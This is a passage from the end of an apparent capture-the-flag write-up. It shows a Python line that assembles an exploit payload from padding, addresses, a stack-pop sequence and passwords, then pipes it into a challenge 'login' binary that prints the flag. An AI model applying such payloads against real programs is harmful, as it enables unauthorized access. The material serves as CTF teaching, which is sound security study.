 ```python
attack_vector = 'JUNK' + addr_m + 'JUNK' + addr_n + stack_pop + write + pass1 + pass2

print attack_vector
```
Finally we can use this script to get our flag!
```
$ python exploit.py | ./login
Welcome to the extremely secure login. Who are you?
JUNKJUNK100-f7f06580-804942d-                       1263424842                    1263424842
Enter password 1 of length 100
Enter password 2 of length 70
p_ctf{0nly_h4ck3r5_c4n_l061n}
```
And we have exploited it!

